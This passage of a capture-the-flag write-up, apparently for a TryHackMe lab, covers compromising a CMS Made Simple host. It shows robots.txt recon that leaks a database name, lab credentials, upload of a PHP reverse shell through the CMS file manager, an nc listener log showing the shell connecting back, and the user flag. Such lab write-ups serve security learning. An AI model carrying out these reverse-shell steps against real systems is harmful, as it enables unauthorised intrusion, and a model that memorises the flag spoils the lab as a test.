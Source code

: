 Besides, there is also a `robots.txt` file that discloses the name of a database, as well as a CMS installation URL (CMS Made Simple):

~~~
┌──(kali㉿kali)-[/data/toc2]
└─$ curl -s http://10.10.215.10/robots.txt 
User-agent: *
Disallow: /cmsms/cmsms-2.1.6-install.php
 
Note to self:
Tommorow, finish setting up the CMS, and that database, cmsmsdb, so the site's ready by Wednesday.   
~~~

Running Gobuster won't reveal other locations. At this stage, here is the information collected so far:

* URL: `http://10.10.215.10/cmsms/cmsms-2.1.6-install.php`
* DB: `cmsmsdb`
* Username: `cmsmsuser`
* Password: `devpass`

## CMS Made Simple / Reverse Shell

Let's proceed with the installation of CMS Made Simple, as we have the setup PHP file.

Complete the installation and login to the admin panel. Then go to the file manager and upload a PHP reverse shell.

Start a listener (`nc -nlvp 4444`) and browse `10.10.215.10/cmsms/uploads/shell.php`.

We now have a reverse shell:

~~~
┌──(kali㉿kali)-[/data/toc2/files]
└─$ nc -nlvp 4444       
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.215.10] 34964
Linux toc 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:51:53 up 18 min,  0 users,  load average: 1.08, 1.71, 1.47
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## User flag

The user flag is located in frank's home:

~~~
www-data@toc:/home/frank$ cat user.txt 
cat user.txt
thm{63616d70657276616e206c696665}
~~~
